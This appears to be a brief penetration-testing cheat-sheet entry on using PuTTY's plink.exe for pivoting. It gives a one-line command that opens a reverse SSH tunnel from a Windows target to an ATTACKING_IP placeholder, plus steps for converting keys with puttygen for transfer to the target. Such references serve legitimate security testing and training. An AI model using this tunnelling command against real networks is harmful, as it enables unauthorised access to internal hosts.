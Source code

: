 ```yaml
---
description: Plink.exe is a Windows command line version of the PuTTY SSH client.
---
```


# Plinx.exe

`Now that Windows comes with its **own inbuilt SSH client**, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.`

### Reverse Connection

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

### Windows Servers

```
"Note !!"
# Keys generated by ssh-keygen will not work properly here.

# Convert them using the "puttygen" tool :
sudo apt install putty-tools

# Conversion can be done with :
puttygen KEYFILE -o OUTPUT_KEY.ppk

# The resulting .ppk file can then be transferred to the Windows target

# Download a new copy of plinx.exe from 
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
```
